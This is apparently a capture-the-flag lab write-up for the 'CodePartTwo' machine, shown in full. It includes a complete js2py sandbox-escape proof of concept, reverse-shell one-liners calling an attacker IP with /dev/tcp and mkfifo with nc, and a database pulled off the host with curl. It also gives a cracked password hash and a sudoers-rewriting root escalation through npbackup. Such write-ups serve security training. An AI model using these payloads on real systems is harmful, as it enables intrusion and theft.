 ```yaml
---
layout: default
title: CodePartTwo
---
```


## TL;DR

Sandbox escaping from `js2py` using known exploit, and achieving shell. Crack password from `users.db` to get `marco`'s password. using `npbackup` to achieve root shell.

### Recon

First we start with `nmap`, using this command:
```bash
nmap -p- -sVC --min-rate=10000 $target
```

![nmap results](image.png)

So, we got port `8000` opened and running http server on it, *Gunicorn* server, version 20.0.4
```bash
PORT     STATE SERVICE VERSION
8000/tcp open  http    Gunicorn 20.0.4
|_http-server-header: gunicorn/20.0.4
|_http-title: Welcome to CodePartTwo
```

### Exploit CVE-2024-28397-js2py-Sandbox-Escape

When accessing the website in port `8000`, we can see the source code, and also that we can execute commands in the /dashboard tab.
![execute commands](image-1.png)

In the source code, in `app/app.py`, we can see those lines:
```py
@app.route('/run_code', methods=['POST'])
def run_code():
    try:
        code = request.json.get('code')
        result = js2py.eval_js(code)
        return jsonify({'result': result})
    except Exception as e:
        return jsonify({'error': str(e)})
```

So, it uses `js2py.eval_js` to execute commands. After googling, i found that we can achieve RCE, and this github repo jumped to me https://github.com/Marven11/CVE-2024-28397-js2py-Sandbox-Escape/.

We can use the PoC it supplies:
```js
// [+] command goes here:
let cmd = "head -n 1 /etc/passwd; calc; gnome-calculator; kcalc; "
let hacked, bymarve, n11
let getattr, obj

hacked = Object.getOwnPropertyNames({})
bymarve = hacked.__getattribute__
n11 = bymarve("__getattribute__")
obj = n11("__class__").__base__
getattr = obj.__getattribute__

function findpopen(o) {
    let result;
    for(let i in o.__subclasses__()) {
        let item = o.__subclasses__()[i]
        if(item.__module__ == "subprocess" && item.__name__ == "Popen") {
            return item
        }
        if(item.__name__ != "type" && (result = findpopen(item))) {
            return result
        }
    }
}

n11 = findpopen(obj)(cmd, -1, null, -1, -1, -1, null, null, true).communicate()
console.log(n11)
n11
```

We need to change the command, I tried to execute this `sh -i >& /dev/tcp/10.10.14.168/770 0>&1` to achieve remote shell, but it didn't work.
So, i used other payload from https://www.revshells.com/, I tried with `mkfifo`, and it worked.
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.168 770 >/tmp/f
```

So, let's paste those commands, to achieve easier shell:
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
stty raw -echo
stty rows 38 columns 116
```

### Get db file and analyze it

We can see the user `marco`, but when trying to access his `/home` directory, we get access denied, because we only have privileges of `app` user.

Okay, after some searching, i came to the file `users.db` inside `/app/instance`, and decided to pull it out, using simple http server.
on remote server:
```bash
python3 -m http.server 1337
```
on my machine:
```bash
curl http://$target:1337/users.db -o users.db
```
![get users.db](image-2.png)

We start with `file` to check what is the file, 
```bash
┌──(agonen㉿kali)-[~/htb/CodePartTwo]
└─$ file users.db          
users.db: SQLite 3.x database, last written using SQLite version 3031001, file counter 4, database pages 4, cookie 0x2, schema 4, UTF-8, version-valid-for 4
```
Okay, this is sqlite3 database file, let's open it: 
```bash
sqlite3 users.db
```

We can use `.tables` to show available tables, and then select all data from `user` table, using `select * from user;`

![sqlite3](image-3.png)

```
sqlite> select * from user;
1|marco|649c9d65a206a75f5abe509fe128bce5
2|app|a97588c0e2fa3a024876339e27aeb42e
```

using https://crackstation.net/ we managed to crack the password of marco, which is `sweetangelbabylove`.
![crack station](image-4.png)

I tried to `ssh` to the machine, using the user `marco` and it's password:
```bash
ssh marco@$target
```

![ssh to marco](image-5.png)

Now, let's grab the user flag:
```bash
marco@codeparttwo:~$ cat /home/marco/user.txt
4cbd9ff095cbd1daeaaf6994bc239f46
```

### Escalate Privilege

We start with `sudo -l`, to view what marco can do:
```bash
marco@codeparttwo:~$ sudo -l
Matching Defaults entries for marco on codeparttwo:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User marco may run the following commands on codeparttwo:
    (ALL : ALL) NOPASSWD: /usr/local/bin/npbackup-cli
```

we can see he can execute `/usr/local/bin/npbackup-cli` as root. In the `npbackup.conf` we can see this line:
```
post_exec_commands: []
```
maybe we can add our own commands, and then when we will do backup, it'll run those commands as an admin.

Let's try to add these commands, the idea is to give marco the ability to do anything:
```bash
echo 'marco ALL=(ALL) NOPASSWD: ALL' > /etc/sudoers.d/marco; chmod 440 /etc/sudoers.d/marco
```

![added post commands](image-7.png)

And now, we'll execute backup, `-c` to supply the conf file, `-b` to say we want backup, and `-f` to force it, even if there is nothing new to backup.
```bash
sudo /usr/local/bin/npbackup-cli -c /tmp/npbackup.conf -b -f
```

Now we can check again using `sudo -l`:
```bash
marco@codeparttwo:~$ sudo -l
Matching Defaults entries for marco on codeparttwo:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User marco may run the following commands on codeparttwo:
    (ALL : ALL) NOPASSWD: /usr/local/bin/npbackup-cli
    (ALL) NOPASSWD: ALL
```

And we got it! we can summon shell or simply reading the root flag:
```
marco@codeparttwo:~$ sudo cat /root/root.txt
6b753ed66a2fbfd92fe5e291ccd3e1e2
```

![get root flag](image-6.png)

**User Flag:*****`4cbd9ff095cbd1daeaaf6994bc239f46`***

**Root Flag:*****`6b753ed66a2fbfd92fe5e291ccd3e1e2`***

